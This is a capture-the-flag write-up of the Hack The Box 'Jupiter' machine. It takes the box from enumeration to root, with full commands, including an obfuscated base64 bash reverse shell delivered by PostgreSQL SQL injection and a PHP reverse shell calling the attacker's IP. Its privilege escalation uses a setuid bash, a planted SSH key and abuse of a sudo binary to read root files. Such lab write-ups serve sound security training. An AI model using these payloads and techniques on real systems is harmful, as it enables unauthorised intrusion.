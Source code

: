 we add the target machine at /etc/hosts:

	sudo nano /etc/hosts
	10.10.11.216	jupiter.htb

we start with a port enumerations:

	rustscan -a jupiter.htb

output:

	Open 10.10.11.216:22
	Open 10.10.11.216:80

the 80 is open so we browse it and in the meantime we run gobuster and wfuzz for the enumeration of dir and vhosts:

	gobuster dir -u http://kiosk.jupiter.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx -t 200 

	wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.jupiter.htb" -u http://jupiter.htb/ --hc 301

output:

	gobuster:
	/contact.html         (Status: 200) [Size: 10141]
	/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
	/.html                (Status: 403) [Size: 162]
	/index.html           (Status: 200) [Size: 19680]
	/about.html           (Status: 200) [Size: 12613]
	/services.html        (Status: 200) [Size: 11969]

	wfuzz:
	000001955:   200        211 L    798 W      34390 Ch    "kiosk" 

gobuster seems to find some directories but if we browse the website there isn't any interesting intead of the subdomain kiosk got my attention; we add to /etc/hosts and we re-run another gobuster:

	sudo nano /etc/hosts
	10.10.11.216	jupiter.htb  kiosk.jupiter.htb

gobuster command:

	gobuster dir -u http://kiosk.jupiter.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx -t 200

output:

	/login                (Status: 200) [Size: 34390]
	/profile              (Status: 302) [Size: 29] [--> /login]
	/signup               (Status: 200) [Size: 34390]
	/public               (Status: 302) [Size: 31] [--> /public/]
	/admin                (Status: 302) [Size: 24] [--> /]
	/plugins              (Status: 302) [Size: 24] [--> /]

We crawl the website like for 1 hour, so we decide to open Burpsuite, there are some requests to the db and we have also the root priviliege on the db itself, so we can try to do a RCE execution via SQL injection with these payload found on internet:

	 DROP TABLE IF EXISTS cmd_exec;          
	 CREATE TABLE cmd_exec(cmd_output text);
	 "COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2Ljc1LzMzMzMgMD4mMQ== | base64 -d | bash';

in the meantime we run pwncat:

	python3 -m pwncat
	connect -lp 4444

we're inside with postgresql'user, time to run linpeas.sh:

	-upload /YOUR PATH/linpeas.sh /tmp/linpeas.sh

there isn't any interesting, so we try to do a simple command:

	find / -user juno 2>/dev/null

output:

	/dev/shm/network-simulation.yml 

this .yml is runned by juno and it can be exploit in order to a privesc, in the .yml we add this lines:

	/server section/
	/usr/bin/cp
	/bin/bash /tmp/bash --> juno will run is shell and we copy it in a new shell

	/client section/
	/usr/bin/chmod
	u+s /tmp/bash ---> we set userid for the bash.

if we go in /tmp and we run:

	./bash -p

we're juno but it seems we don't have the full permissions indeed we can't cat user.txt but if we run linpeas.sh, it's tell us that it's possible to modify the authorized_keys so it takes 2 minutes to change the publick key already in with an our publick key and enter via SSH:

	ssh-keygen
	/we copy the public key in authorized keys/
	ssh -i id_rsa juno@10.10.11.216

we're juno and we can retrieve the user.txt.
This time I want to relaunch the find command in order to retrieve the file owned by jovian:

	find / -user jovian 2>/dev/null

there are some jupyter log files and if you open it, you can see that:
- jupyter run on 127.0.0.1:8888
- some access token inside 

so we do these following commands:

	ssh -i id:rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216 ---> we forwarded the 8888 port on the target machine on our 8888 port.
	http://127.0.0.1:8888

we paste the right token, we're in, if we search around, it seems we can add and run python script aka revshell

	python3 -m pwncat
	connect -lp 9999

	php -r '$sock=fsockopen("10.10.16.75",9999);exec("/bin/bash <&3 >&3 2>&3");' --> we run it

sbam, we're jovian, all we need is root, i run this command:

	sudo -l

and it prompted this:

	User jovian may run this following commands on jupiter:
		(ALL) NOPASSWD: /usr/local/bin/sattrack

if we run it sattrack it seems to find the configuration file, so i try to find is strings with the command below:

	strings sattrack | grep -i config

output:

	config.json

the config.json have a "tlesources" to get something from URL link, we can change with:

	file:///root/root.txt 
	sudo sattrack

and if we go strict to /tmp we can retrieve the root flag. 

rooted with Disturbante(https://github.com/Disturbante).





